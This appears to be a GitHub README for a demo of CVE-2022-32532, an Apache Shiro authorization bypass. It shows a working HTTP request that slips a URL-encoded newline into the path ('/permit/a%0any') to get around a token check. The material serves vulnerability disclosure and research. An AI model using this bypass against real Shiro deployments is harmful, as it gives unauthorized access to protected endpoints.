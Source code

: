 # CVE-2022-32532

## about

This is a demo project, which only shows one of the conditions for exploiting this vulnerability (CVE-2022-32532). 

In fact, there are more ways to exploit it, as long as developers use `RegExPatternMatcher`, there will be a possible bypass vulnerability.

## introduce

Token request header verification is required under the current configuration, otherwise you do not have permission to access the interface under `/permit`

This request can succeed
```http request
GET /permit/any HTTP/1.1
Token: 4ra1n
```

Access is not allowed when there is no token request header
```http request
GET /permit/any HTTP/1.1
```

It can be bypassed in a simple way in special but common configurations
```http request
GET /permit/a%0any HTTP/1.1
```

## reference

https://lists.apache.org/thread/y8260dw8vbm99oq7zv6y3mzn5ovk90xh

https://xz.aliyun.com/t/11501

This vulnerability is similar to Spring-Security [CVE-2022-22978](https://tanzu.vmware.com/security/cve-2022-22978)

Thanks to [bdemers](https://github.com/bdemers) (Apache Shiro PMC) and [chybeta](https://github.com/chybeta) (Security Researcher)
